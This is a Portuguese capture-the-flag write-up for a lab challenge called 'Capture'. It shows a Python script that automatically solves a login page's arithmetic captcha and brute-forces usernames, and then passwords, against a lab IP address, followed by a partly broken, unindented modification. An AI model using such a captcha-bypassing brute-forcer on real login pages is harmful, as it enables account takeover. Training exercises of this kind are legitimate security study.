 # _**Capture CTF**_
![](capture.jpg)

## _**Enumeração**_
Vamos investigar o arquivo que foi fornecido  
Temos uma lista de nomes e possíveis senhas  
Podemos tentar realizar um ataque de força bruta com cada usuário possível e com cada senha possível para cada usuário  
Isso levaria MUITO tempo  
Outra solução, pela dica dada, é investigar as respostas que temos com <mark>Burpsuite</mark> ao inserir nomes e senhas  
Após alguns pequenos testes para observar alguma mudança, temos que depois de certas tentativas, um _captha_ é solicitado  
Parece que vamos ter que montar um script ou pesquisar na Internet  
Pouco tempo de procura, encontramos o seguinte código
> ```bash
> import requests
> import re
> # parts of this script was generated by chatgpt
> # Function to extract the captcha question and answer from the login page
> def extract_captcha(html):
>     captcha_regex = r'(\d+)\s*([\+\-\*])\s*(\d+)\s*=\s*\?'
>     match = re.search(captcha_regex, html)
>     if match:
>         num1 = int(match.group(1))
>         operator = match.group(2)
>         num2 = int(match.group(3))
>         if operator == '+':
>             answer = num1 + num2
>         elif operator == '-':
>             answer = num1 - num2
>         elif operator == '*':
>             answer = num1 * num2
>         return answer
>     else:
>         return None
> 
> captcha_answer = 1
> # Read usernames from file
> with open('usernames.txt', 'r') as file:
>     usernames = [line.strip() for line in file]
> # Try each username
> for username in usernames:
>     # Send login request
>     session = requests.session()
>     #data = {'username': username, 'password': 'password'}
>     #response = session.post('http://10.10.220.214/login', data=data)
>     #captcha_answer = extract_captcha(response.text)
>     data = {'username': username, 'password': 'password', 'captcha': captcha_answer}
>     response = session.post('http://10.10.220.214/login', data=data)
>     captcha_answer = extract_captcha(response.text)
> 
>     error_message_match = re.search(r'Error(.+)', response.text)
>     if error_message_match:
>         error_message = error_message_match.group(1)
>     else:
>         error_message = 'Error message not found'
>     print(f"{username} - Error message: {error_message} ")
> ```

Após algum tempo de código sendo executado, temos nosso usuário com resposta diferente  

![](nath.jpg)

Agora para a senha, vamos realizar algumas alterações no código  
Abaixo, as linhas alteradas  
> ```bash
> with open('passwords.txt', 'r') as file:
> passwords = [line.strip() for line in file]
> for passwords in passwords:
> data = {'username': 'natalie', 'password': passwords, 'captcha': captcha_answer}
> print(f"{passwords} - Error message: {error_message} ")
> ```
Essas alterações irão fazer com que o código percorra o arquivo _passwords.txt_ e tente cada um até encontrar o certo para o usuário que descobrimos anteriormente  
Após algum tempo, temos nosso resultado de senha  

![](passwd.jpg)

Agora, só realizar login e pegar a flag!
